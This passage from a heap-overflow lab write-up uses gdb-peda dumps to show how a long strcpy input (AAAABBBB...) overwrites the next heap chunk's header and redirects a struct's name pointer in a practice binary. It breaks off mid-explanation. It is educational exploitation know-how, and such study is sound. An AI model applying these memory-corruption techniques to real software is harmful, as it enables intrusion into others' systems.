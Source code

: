 Can see the heap is mapped between addresses `0x804a000` to `0x806b000`:

    gdb-peda$ x/64wx 0x804a000
    0x804a000:      0x00000000      0x00000011      0x00000000      0x00000000
    0x804a010:      0x00000000      0x00020ff1      0x00000000      0x00000000
    0x804a020:      0x00000000      0x00000000      0x00000000      0x00000000
    0x804a030:      0x00000000      0x00000000      0x00000000      0x00000000
    0x804a040:      0x00000000      0x00000000      0x00000000      0x00000000

Here can see the first heap allocation  `0x00000000 0x00000011 0x00000000 0x00000000`, the first 8 bytes `0x00000000 0x00000011` being the chunk header, and the second 8 bytes `0x00000000 0x00000000` the user data (the uninitialised `internet struct` in this case).

After the second `malloc()`:

    gdb-peda$ x/64wx 0x804a000
    0x804a000:      0x00000000      0x00000011      0x00000001      0x00000000
    0x804a010:      0x00000000      0x00000011      0x00000000      0x00000000
    0x804a020:      0x00000000      0x00020fe1      0x00000000      0x00000000
    0x804a030:      0x00000000      0x00000000      0x00000000      0x00000000
    0x804a040:      0x00000000      0x00000000      0x00000000      0x00000000

gdb can intelligently parse raw heap memory back to the more human readable `internet struct`, by casting it to an assigned gdb variable like this:

    gdb-peda$ set $i = (struct internet*)0x804a008
    gdb-peda$ print *$i
    $2 = {
      priority = 0x1,
      name = 0x0
    }

Now we can visualise the raw heap memory, let take a look at it straight after the dangerous `strcpy` is run with the malicious long input arguments:

    gdb-peda$ x/64wx 0x804a000
    0x804a000:      0x00000000      0x00000011      0x00000001      0x0804a018
    0x804a010:      0x00000000      0x00000011      0x41414141      0x42424242
    0x804a020:      0x43434343      0x44444444      0x45454545      0x08049844
    0x804a030:      0x00000000      0x00000011      0x00000000      0x00000000
    0x804a040:      0x00000000      0x00020fc1      0x00000000      0x00000000
    0x804a050:      0x00000000      0x00000000      0x00000000      0x00000000


This clearly shows the impact of the overflow. Note how the AAAA (0x41) BBBB (0x42) CCCC (0x43) DDDD (0x44) ... characters have overflowed the next chunk header bytes, and then even the value of the chunk data bytes aswell.

While the first `malloc()` internet structure looks fine:

    gdb-peda$ print *$i
    $3 = {
      priority = 0x1,
      name = 0x804a018 "AAAABBBBCCCCDDDDEEEED\230\004\b"
    }

The second one has been damaged badly by the overflow:
